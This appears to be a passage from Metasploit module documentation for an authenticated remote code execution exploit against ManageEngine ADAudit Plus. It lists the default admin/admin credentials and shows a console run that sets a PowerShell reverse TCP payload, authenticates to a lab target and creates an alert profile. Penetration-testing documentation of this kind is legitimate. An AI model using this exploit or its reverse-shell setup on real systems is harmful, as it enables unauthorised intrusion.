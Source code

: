 ### USERNAME
Username to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials.

### PASSWORD
Password to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials.

## Scenarios
### ManageEngine ADAudit Plus build 7003 running on Windows Server 2012 R2
```
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > options

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.91.250              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.91.195   yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7003
[*] Attempting to create an alert profile
[+] Successfully created alert profile UiYnupjyi24
```